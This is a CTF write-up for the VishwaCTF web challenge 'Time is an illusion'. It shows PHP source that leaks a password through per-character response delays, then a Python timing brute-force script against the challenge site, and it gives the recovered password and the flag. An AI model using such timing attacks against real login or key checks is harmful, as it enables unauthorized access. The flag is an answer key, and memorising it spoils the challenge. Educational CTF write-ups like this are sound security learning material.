 ### Time is an illusion 
--------------------

desc : The source should convey it all 

challenge link : https://time-is-an-illusion.vishwactf.com/

Going to the webpage there is an input box and a hyperlink to the source code

```php=
<?php
include "env.php";
set_time_limit(0);
if(isset($_GET['key'])){
    $your_input = $_GET['key'];
    if(strlen($your_input)!=5){
    die("It's five characters long, and may or may not contain numbers or characters or small letters or capital letters");
    }
    for($i=0; $i<strlen($your_input);$i++)
    {
        $let_check=$_ENV['our_input'];
        if($your_input[$i]!=$let_check[$i]){
            die("VERY VERY VERY INCORRECT");
        }
        usleep(1000000);
    }
    echo getenv('THE_THING_YOU_ARE_LOOKING_FOR');
}
?>
```
So we have to input a 5 letter word and each time the character is correct we can see a delay of 1s in the response. Taking the dealy in the response we made a python code to get the password.

```python
import os
import string
import requests
scope = string.ascii_letters+string.digits
print(scope)
payload = ""
s = requests.Session()
for char in scope:
    payload = char*5
    r = s.get("https://time-is-an-illusion.vishwactf.com/handle.php",params={"key":payload})
    print(payload)
    print(r.elapsed.total_seconds())
```
Since the delay was 1s we had to try a few times but we got the password as **KuKa9** and that gave us the flag 

flag : **`vishwaCTF{PhP_h@$_iTs_0wN_PErK$}`**

### My Awesome Youtube recommendation 
---------------------------------

